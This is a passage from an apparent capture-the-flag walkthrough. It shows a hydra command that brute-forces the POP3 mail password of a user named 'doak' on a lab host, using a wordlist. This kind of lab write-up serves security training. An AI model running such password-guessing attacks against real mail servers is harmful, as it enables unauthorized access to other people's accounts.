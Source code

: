 <img style="float: left;" src="screenshots/screenshot23.png">

Dr Doak mentions that his email username is **doak**. Let's try using `hydra` again to brute-force his password:

``` 
hydra -l doak -P /usr/share/wordlists/fasttrack.txt -f -s 55007 -t 64 10.10.49.24 pop3
```

<img style="float: left;" src="screenshots/screenshot24.png">
